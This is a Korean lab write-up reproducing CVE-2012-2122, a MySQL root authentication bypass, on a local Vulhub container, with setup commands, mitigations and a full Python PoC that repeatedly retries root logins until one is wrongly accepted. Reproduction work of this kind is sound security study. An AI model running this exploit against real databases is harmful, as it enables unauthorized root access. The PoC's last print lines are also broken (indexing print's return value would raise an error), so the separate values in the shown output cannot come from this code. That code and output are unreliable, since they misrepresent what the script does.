

# MySQL Authentication Bypass (CVE-2012-2122)

## 취약점 요약
CVE-2012-2122는 MySQL과 MariaDB의 특정 버전에서 발생하는 인증 우회 취약점이다. 비밀번호 비교 과정에서 `memcmp()` 반환값을 잘못 처리하여, 잘못된 비밀번호를 사용하더라도 반복 로그인 시 일정 확률로 인증이 성공할 수 있다.

이 취약점이 성공하면 공격자는 올바른 비밀번호를 알지 못해도 특정 사용자 계정으로 로그인할 수 있으며, root 계정까지 탈취할 수 있다.

## 환경 구성
본 실습은 `gunh0/kr-vulhub`의 `MySQL/CVE-2012-2122` 환경을 사용했다. Docker Compose로 Vulhub 프로젝트에서 제공하는 MySQL 5.5.23 기반 이미지 실행.

실습 환경 구성 요소는 다음과 같다.

- OS: Windows PowerShell 환경
- Container runtime: Docker Desktop / Docker Compose 
- Target DB: MySQL 5.5.23 
- PoC language: Python 3 + `pymysql` 

## 취약 조건
이 취약점은 Oracle MySQL 5.1.63 미만, 5.5.24 미만, 5.6.6 미만과 일부 MariaDB 버전에 영향을 준다. Vulhub 실습 환경은 취약한 MySQL 5.5.23을 사용하므로 해당 조건을 만족한다.

이 취약점은 잘못된 비밀번호로 인증을 반복할 때 비교 logic의 결함으로 인해 우연히 인증이 참으로 처리되는 점을 이용한다.

## 재현 절차
1. 실습 디렉터리로 이동한다.
```powershell
cd .\kr-vulhub\MySQL\CVE-2012-2122
```

2. Docker Compose로 취약한 MySQL 환경을 실행한다.
```powershell
docker compose up -d
```

3. PoC 실행에 필요한 Python 라이브러리를 설치한다.
```powershell
pip install pymysql
```

4. `poc.py`를 실행하여 root 계정 로그인 우회를 시도한다.
```powershell
python poc.py
```

## PoC 코드
아래 PoC는 root 계정에 대해 비밀번호를 반복 변경하며 로그인 시도를 수행하고, 성공 시 실제 접속 계정과 DB 버전을 확인한다. 

```python
import pymysql

HOST = "127.0.0.1"
PORT = 3306
USER = "root"
MAX_TRIES = 10000

conn = None
success_password = None

print("[*] CVE-2012-2122 PoC 시작")
print(f"[*] 대상: {USER}@{HOST}:{PORT}")

for i in range(1, MAX_TRIES + 1):
    try:
        password = str(i)

        conn = pymysql.connect(
            host=HOST,
            port=PORT,
            user=USER,
            password=password,
            charset="utf8",
            connect_timeout=1,
            read_timeout=1,
            write_timeout=1,
        )

        success_password = password
        print(f"[+] {i}번째 시도에서 로그인 성공")
        print(f"[+] 사용된 비밀번호(실제 정답 아님): {success_password}")
        break

    except pymysql.err.OperationalError:
        if i % 100 == 0:
            print(f"[-] {i}번째 시도까지 실패")
    except Exception as e:
        print(f"[!] 예상치 못한 오류 발생: {e}")
        break

if conn is None:
    print(f"[-] {MAX_TRIES}번 시도했지만 로그인에 실패했습니다.")
    raise SystemExit(1)

try:
    with conn.cursor() as cursor:
        cursor.execute("SELECT USER(), CURRENT_USER(), VERSION()")
        result = cursor.fetchone()

        print(f"[+] USER(): {result}")
        print(f"[+] CURRENT_USER(): {result}")[2]
        print(f"[+] VERSION(): {result}")[3]
        print("[+] root 계정 로그인 우회 성공")
finally:
    conn.close()
```

## 실행 결과
PoC 실행 결과, 244번째 시도에서 root 계정 로그인 우회에 성공했다. 성공한 비밀번호는 실제 정답 비밀번호가 아니라 반복 인증 과정에서 우연히 허용된 값이며, `USER()`와 `CURRENT_USER()` 조회 결과를 통해 root 계정으로 인증되었음을 확인했다.

실행 출력은 다음과 같다.

```text
[*] CVE-2012-2122 PoC 시작
[*] 대상: root@127.0.0.1:3306
[-] 100번째 시도까지 실패
[-] 200번째 시도까지 실패
[+] 244번째 시도에서 로그인 성공
[+] 사용된 비밀번호(실제 정답 아님): 244
[+] USER(): root@172.18.0.1
[+] CURRENT_USER(): root@%
[+] VERSION(): 5.5.23
[+] root 계정 로그인 우회 성공
```

실행 화면 스크린샷은 아래와 같다.



## 대응 방안
가장 근본적인 대응은 패치된 버전으로 업그레이드하는 것이다. 이 취약점은 MySQL 5.5.24, 5.1.63, 5.6.6 이상에서 수정되었으며, MariaDB도 대응 버전에서 해결되었다.또한, root 계정의 원격 로그인을 제한하거나, 외부에서 DB 포트 3306에 직접 접근하지 못하도록 방화벽 정책을 적용한다. 뿐만 아니라, 취약 버전 사용 여부를 정기적으로 점검하고 즉시 보안 패치를 적용한다 